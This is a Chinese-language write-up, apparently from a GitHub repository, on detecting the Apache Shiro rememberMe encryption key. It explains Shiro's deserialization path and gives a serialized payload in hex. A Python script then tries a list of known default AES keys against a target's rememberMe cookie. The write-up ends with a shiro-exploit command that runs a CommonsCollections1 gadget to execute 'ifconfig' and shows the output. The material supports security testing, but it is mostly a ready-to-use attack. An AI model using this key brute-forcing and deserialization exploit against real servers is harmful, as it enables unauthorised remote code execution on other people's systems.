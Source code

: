 # Shiro快速检测Key方法

判断 shiro 的 key ，早期的POC检测采用 URLDNS 进行 dnslog 查询。没有 dnslog 的情况下，考虑直接用CC盲打会有延迟。甚至出现目标主机无法出网的情况

对Apache Shiro指纹检测通常是在 request 的 cookie 中写入 rememberMe=xxx ，再查看 response 的 set-cookie 是否出现 rememberMe=deleteMe 。

针对这个 rememberMe=deleteMe 进行思考，如果Key是正确的，返回的内容应该是如下信息：



  `'Set-Cookie':  'JSESSIONID=57f62121-faa3-44b3-bc3e-fd1a39cdc94f; Path=/; HttpOnly'`  



对RemeberMe处理的核心代码位于 **AbstractRememberMeManager#getRememberedPrincipals**

```
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
        PrincipalCollection principals = null;

try {
            byte[] bytes = this.getRememberedSerializedIdentity(subjectContext);
if (bytes != null && bytes.length > 0) {
                principals = this.convertBytesToPrincipals(bytes, subjectContext);
            }
        } catch (RuntimeException var4) {
            principals = this.onRememberedPrincipalFailure(var4, subjectContext);
        }

return principals;
    }
```

进入**AbstractRememberMeManager#convertBytesToPrincipals** 方法当中，当前的Key正确的。所以经过 decrypt 处理之后返回 bytes 数组，进入 deserialize 方法进行反序列化处理。

```
protected PrincipalCollection convertBytesToPrincipals(byte[] bytes, SubjectContext subjectContext) {
if (this.getCipherService() != null) {
            bytes = this.decrypt(bytes);
        }

return this.deserialize(bytes);
    }
```

跟进 deserialize 方法

```
protected PrincipalCollection deserialize(byte[] serializedIdentity) {

	return (PrincipalCollection)this.getSerializer().deserialize(serializedIdentity);
    
}
```

如果反序列化执行链未继承 PrincipalCollection，类型转换会发生报错

![1](./shiro_key/1.png)



**构造POC**

实现通过Key进行检测漏洞需要满足两点：

1. 构造一个继承 PrincipalCollection 的序列化对象。
2. key正确情况下不返回 deleteMe ，key错误情况下返回 deleteMe 。

基于这两个条件下 SimplePrincipalCollection 这个类自然就出现了，这个类可被序列化，继承了 PrincipalCollection 。

 

生成序列化代码如下：

```
 SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
 ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream("payload"));
 obj.writeObject(simplePrincipalCollection);
 obj.close();
```

生成的16进制字符串如下：

```
aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078
```

关键POC代码如下：

```
import base64
import binascii
import uuid
from dataclasses import dataclass
from urllib.parse import ParseResult

import requests
from Crypto.Cipher import AES

省略部分….

target = "http://"+target + ":" + str(port)

    yso_payload = '''aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078'''

    payload = binascii.a2b_hex(yso_payload)

    # AES Encrypte and base64 encode
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    SHIRO_KEYS =["kPH+bIxk5D2deZiIxcaaaA==","2AvVhdsgUs0FSA3SDFAdag==","3AvVhmFLUs0KTA3Kprsdag==","4AvVhmFLUs0KTA3Kprsdag==","5aaC5qKm5oqA5pyvAAAAAA==","6ZmI6I2j5Y+R5aSn5ZOlAA==","bWljcm9zAAAAAAAAAAAAAA==","wGiHplamyXlVB11UXWol8g==","Z3VucwAAAAAAAAAAAAAAAA==","MTIzNDU2Nzg5MGFiY2RlZg==","U3ByaW5nQmxhZGUAAAAAAA==","5AvVhmFLUs0KTA3Kprsdag==","fCq+/xW488hMTCD+cmJ3aQ==","1QWLxg+NYmxraMoxAXu/Iw==","ZUdsaGJuSmxibVI2ZHc9PQ==","L7RioUULEFhRyxM7a2R/Yg==","r0e3c16IdVkouZgk1TKVMg==","bWluZS1hc3NldC1rZXk6QQ==","a2VlcE9uR29pbmdBbmRGaQ==","WcfHGU25gNnTxTlmJMeSpw==","ZAvph3dsQs0FSL3SDFAdag==","tiVV6g3uZBGfgshesAQbjA==","cmVtZW1iZXJNZQAAAAAAAA==","ZnJlc2h6Y24xMjM0NTY3OA==","RVZBTk5JR0hUTFlfV0FPVQ==","WkhBTkdYSUFPSEVJX0NBVA=="]
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    for SHIRO_KEY in SHIRO_KEYS:
        encryptor = AES.new(base64.b64decode(SHIRO_KEY), AES_MODE, AES_IV)
        file_body = PAD_FUNC(payload)
        base64_ciphertext = base64.b64encode(AES_IV + encryptor.encrypt(file_body))
        response = requests.get(target, proxies=proxies, timeout=9, cookies={"rememberMe": base64_ciphertext.decode()})
        print(response.headers)
        if "\'Set-Cookie\': \'JSESSIONID=" in str(response.headers):
            warning_info = "{} Apache Shiro 1.2.4 反序列化漏洞 Key is: {} \r\n ".format(
                target,SHIRO_KEY)
            print(warning)
            return


```

检测效果

![1](./shiro_key/2.png)



但是新版本Shiro(>=1.4.2)采用了AES-GCM加密方式，对Key的检测需要使用新的加密方式。修改AES_MODE 修改为 AES.MODE_GCM

 

在对高版本的Shiro 进Key爆破，如需配合ysoerial使用请在脚本中更改yso_path的路径指向本机对应的ysoserial.jar

https://github.com/Ares-X/shiro-exploit

```
╰─➤ python3 shiro-exploit.py echo -g CommonsCollections1 -u http://127.0.0.1 -v 2 -k zSyK5Kp6PZAAjlT+eeNMlg== -c ifconfig
Congratulation: exploit success
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 16384
	options=1203<RXCSUM,TXCSUM,TXSTATUS,SW_TIMESTAMP>
	inet 127.0.0.1 netmask 0xff000000
	inet6 ::1 prefixlen 128
	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1
	nd6 options=201<PERFORMNUD,DAD>
gif0: flags=8010<POINTOPOINT,MULTICAST> mtu 1280
stf0: flags=0<> mtu 1280
ap1: flags=8802<BROADCAST,SIMPLEX,MULTICAST> mtu 1500
	options=400<CHANNEL_IO>
	ether 3a:81:7f:08:7b:ce
	media: autoselect
	status: inactive

```

出现Congratulation说明存在漏洞，无法获取命令执行结果可能因为命令有误,请更换命令或复制到burp手动利用查看回显